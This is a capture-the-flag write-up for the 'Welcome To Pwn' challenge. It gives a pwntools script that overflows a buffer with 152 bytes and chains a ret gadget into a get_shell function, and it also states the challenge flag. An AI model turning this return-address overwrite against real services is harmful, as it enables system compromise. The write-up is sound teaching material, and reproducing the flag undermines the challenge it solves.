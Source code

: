 # Welcome To Pwn

**Category**: Pwn \
**Points**: 457
**Solves**: 34
**Author**: Viper_S

## Description

> Welcome to pwn, here is an easy challenge to get you started.

> nc 35.238.225.156 1001

## Solution

Just overwrite the return address with a ROP Chain of ret gadget and the get_shell function

```python
#!/usr/bin/env python3
import sys
from pwn import *

elf = ELF('./welcome')
context.binary = elf
if len(sys.argv) > 1:
	p = remote('35.238.225.156',1001)
else:
	p = process(elf.path)


get_shell = 0x0401182
ret = 0x00401140

payload = b"A"*152+p64(ret)+p64(get_shell)
p.sendlineafter("got",payload)
p.interactive()
```

**Flag : b00t2root{W3lc0m3_T0_Pwn_YjAwdDJyb290JzIw}**

